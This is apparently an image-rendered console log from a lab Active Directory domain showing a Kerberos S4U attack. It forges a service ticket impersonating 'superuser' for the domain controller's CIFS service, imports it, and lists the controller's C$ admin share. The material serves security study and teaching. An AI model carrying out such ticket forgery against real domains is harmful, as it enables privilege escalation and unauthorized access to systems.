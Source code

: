 	[*] Action: S4U

	[*] Using domain controller: kabil.child.valhalla.local (192.168.200.200)
	[*] Building S4U2self request for: 'KABIL@CHILD.VALHALLA.LOCAL'
	[*] Sending S4U2self request
	[+] S4U2self success!
	[*] Substituting alternative service name 'cifs/kabil.child.valhalla.local'
	[*] Got a TGS for 'superuser' to 'cifs@CHILD.VALHALLA.LOCAL'
	[*] base64(ticket.kirbi):

		  doIFvjCCBbqgAw......sb2NhbA==

	[+] Ticket successfully imported!
	
	PS C:\Users\testuser\Desktop> klist

	Current LogonId is 0:0x2b91e
	Cached Tickets: (1)

	#0>     Client: superuser @ CHILD.VALHALLA.LOCAL
			Server: cifs/kabil.child.valhalla.local @ CHILD.VALHALLA.LOCAL
			KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
			Ticket Flags 0xa50000 -> renewable pre_authent ok_as_delegate name_canonicalize
			Start Time: 12/12/2021 18:38:21 (local)
			End Time:   12/13/2021 4:33:30 (local)
			Renew Time: 12/19/2021 18:33:30 (local)
			Session Key Type: AES-256-CTS-HMAC-SHA1-96
			Cache Flags: 0
			Kdc Called:
	PS C:\Users\testuser\Desktop> dir \\kabil.child.valhalla.local\c$
	Directory: \\kabil.child.valhalla.local\c$


	Mode                LastWriteTime         Length Name
	----                -------------         ------ ----
	d-----        8/22/2013   5:52 PM                PerfLogs
	d-r---       11/26/2021   9:40 AM                Program Files
	d-----       11/26/2021   9:40 AM                Program Files (x86)
	d-r---       11/26/2021   9:24 AM                Users
	d-----       11/26/2021   9:10 AM                Windows
